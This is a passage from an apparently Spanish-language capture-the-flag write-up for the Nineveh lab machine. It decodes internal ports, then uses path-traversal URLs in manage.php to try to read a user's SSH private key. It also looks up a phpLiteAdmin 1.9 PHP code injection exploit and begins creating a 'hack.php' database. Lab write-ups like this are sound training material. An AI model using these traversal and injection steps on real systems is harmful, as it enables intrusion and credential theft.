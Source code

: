     ```bash
    cat data
    cat data | awk '{print $2}'
    cat data | awk '{print $2}' | grep -v "address"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":" | sort -u
    ```

Aqui vemos 3 puertos en formato hexadecimal. Lo miramos con python

```python
python3

>>> 0x0016
22
>>> 0x0050
80
>>> 0x01BB
443
```

Ya sabemos ahora que hay el puerto 22 (ssh) que esta abierto internamente.


### Checkeamos las informaciones del usuario amrois {-}

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/.ssh/id_rsa
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/user.txt
```

No vemos nada. Vamos a ver lo que podemos hacer con la base de datos del puerto 443

### Analyzando la base de datos {-}

```bash
searchsploit phpliteadmin 1.9
```

Aqui vemos un exploit tipo Multiple Vulnerabilities y una Remote PHP Code Injection. Miramos el del RPCI

```bash
searchsploit -x 24044
```

Aqui vemos que si creamos una base de datos, el nombre que entramos sera seguido de la extension apropriada. Un atacante puede
crear una base de datos con una extension php y insertar PHP code para posteriorment ejecutarlo.
## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion desde phpliteadmin {-}

1. Creamos una base de datos llamada hack.php

    ![create hack.php database](images/phpliteadmin-hack-php.png){ style="width:90%;" }
